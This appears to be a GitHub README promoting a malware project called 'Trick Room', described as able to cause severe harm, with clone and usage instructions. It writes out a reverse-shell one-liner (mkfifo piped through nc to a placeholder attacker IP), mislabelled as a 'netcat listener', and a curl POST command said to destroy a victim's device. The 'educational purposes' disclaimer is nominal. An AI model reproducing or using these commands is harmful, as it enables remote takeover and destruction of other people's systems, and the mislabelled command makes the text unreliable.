 ## Trick Room
The Most Advanced Malware Ever Made!

## Creators

- [@LotusEmpire](https://www.github.com/lotusempire64) 





## Installation

```bash
git clone https://github.com/lotusempire64/Trick_Room 
cd Trick_Room  
```
## Warning! 
Don't Run On Your Own Computer, Use Only For Educational Purposes As This Virus Has The Potential To Cause Severe Harm 

## Usage 
Step 1: Start a netcat listener: 
```bash 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOURIPHERE 8080 >/tmp/f
``` 
Step 2: Use post requests to controll target, it will send back the server IP 
Example Of Post Request To Destroy Victims Device: 
```bash 
curl VICTIMSERVERHERE -X POST -d DESTROY 
``` 
## This Is A Work In Progress 
If you have any features you want added, find any bugs, or would like to colaborate on this project, email me here: lotusempire6@gmail.com
